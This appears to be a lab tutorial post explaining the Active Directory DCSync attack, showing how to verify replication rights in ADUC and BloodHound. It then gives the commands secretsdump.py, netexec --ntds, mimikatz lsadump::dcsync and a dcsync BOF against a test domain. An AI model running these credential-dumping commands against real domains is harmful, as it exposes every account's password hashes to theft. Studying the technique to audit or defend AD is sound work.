







> Author : lineeralgebra
{:.prompt-tip}

# DCSync

DCSync = **Domain Controller Synchronization**

an Active Directory environment, Domain Controllers replicate data with each other to ensure consistency. This includes sensitive information such as user credentials and password hashes. Microsoft designed this as a core feature of AD so that authentication and authorization always work across different DCs.

However, this replication mechanism can be abused. The **DCSync attack** allows an adversary with certain directory replication rights to impersonate a Domain Controller and request password data directly from Active Directory. Instead of compromising the Domain Controller itself, the attacker leverages built-in replication functions to extract credentials.

To perform a successful DCSync, an attacker must have at least the following rights:

- **Replicating Directory Changes**
- **Replicating Directory Changes All**
- **Replicating Directory Changes in Filtered Set**

If granted, these rights effectively provide the same power as a Domain Controller, since they allow pulling all password hashes, including those of privileged accounts such as **KRBTGT** and **Domain Admins**.

## DCSync  **happening why?**

Before start lets learn why is happening? where to check and verify?

We have to open `dsa.msc` → ADUC first and make sure its enabled.

1. Go to the **Security** tab.
    - If you don’t see it: in ADUC, click **View → Advanced Features**, then open Properties again.
2. Click **Advanced**.

Now we can go our target to verify

1. We can go our target directly and `right click` and select `Properties`  After u select victim user and check `Permissions` 
    

    

## DCSync **Verify**

### DCSync **Verify w Bloodhound**



and u can see we can use secretsdump directly



## DCSync **Attack (Linux Abuse)**

We can easily do with secretsdump btw

```bash
secretsdump.py lab.local/osman:iloveyou@192.168.1.10
```



or with netexec `--ntds` module

```bash
nxc smb VALENOR-DC01.lab.local -u osman -p iloveyou --ntds
```



## DCSync **Attack (C2 Abuse)**

Lets do with mimikatz

```bash
mimikatz lsadump::dcsync /domain:lab.local /user:Administrator
```



or we can use **dcsync** bof which is more good for OPSEC

```bash
dcsync lab.local Administrator
```


